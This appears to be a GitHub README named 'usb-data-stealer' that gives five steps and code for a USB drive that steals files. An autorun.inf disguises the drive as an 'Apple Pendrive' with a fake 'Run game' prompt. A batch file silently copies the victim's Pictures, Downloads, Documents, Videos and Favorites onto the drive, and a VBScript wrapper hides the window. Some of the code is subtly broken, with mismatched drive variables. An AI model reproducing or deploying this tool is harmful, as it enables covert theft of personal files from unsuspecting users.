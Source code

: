 # usb-data-stealer

<html>
Step 1: Open notepad. <br>
 <br>
[autorun]  <br>
icon=Devicon.ico <br>
label=Apple Pendrive <br>
open=launch.bat <br>
action=Click ok to Run game for Windows <br>
shell\open\command=launch.bat <br>
 <br>
Save As...autorun.inf <br>
 <br>
Step 2: <br>
 <br>
@echo off <br>
:: variables <br>
/min <br>
SET odrive=%odrive:~0,2% <br>
set backupcmd=xcopy /s /c /d /e /h /i /r /y <br>
echo off <br>
%backupcmd% "%USERPROFILE%\pictures" "%drive%\all\My pics" <br>
%backupcmd% "%USERPROFILE%\Favorites" "%drive%\all\Favorites" <br>
%backupcmd% "%USERPROFILE%\videos" "%drive%\all\videos" <br>
%backupcmd% "%USERPROFILE%\Downloads" "%drive%\all\Downloads" <br>
%backupcmd% "%USERPROFILE%\Documents" "%drive%\all\Documents" <br>
@echo off  <br>
cls <br>
 <br>
Save as...file.bat <br>
 <br>
Step 3: <br>
 <br>
CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False <br>
 <br>
Save as...invisible.vbs <br>
 <br>
Step 4:
 <br>
wscript.exe \invisible.vbs file.bat  <br>
 <br>
Save as...launch.bat <br>
 <br>
Step 5: <br>
 <br>
copy all the 4 files to pendrive. <br>
</html>
